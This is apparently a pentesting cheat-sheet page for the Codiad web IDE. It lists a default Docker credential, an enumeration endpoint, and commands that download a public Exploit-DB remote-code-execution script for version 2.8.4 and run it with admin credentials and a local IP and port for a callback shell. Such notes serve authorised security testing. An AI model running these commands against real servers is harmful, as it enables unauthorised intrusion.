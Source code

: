 ```yaml
---
title: Codiad Pentesting
description: Codiad is a web-based IDE framework.
tags: 
    - Web
refs:
    - https://www.exploit-db.com/exploits/49705
date: 2023-02-26
draft: false
---
```


## Default Credentials

```sh
# Docker image - https://hub.docker.com/r/bitnami/codiad
user:bitnami
```

<br />

## Enumeration

```bash
# Get current directory in the system
/components/project/controller.php?action=get_current
```

<br />

## Remote Code Execution (RCE) v2.8.4

```bash
wget https://www.exploit-db.com/exploits/49705 -O exploit.py

# Linux
python3 exploit.py https://example.com/ admin admin <local-ip> 4444 linux
# Windows
python3 exploit.py https://example.com/ admin admin <local-ip> 4444 windows
```
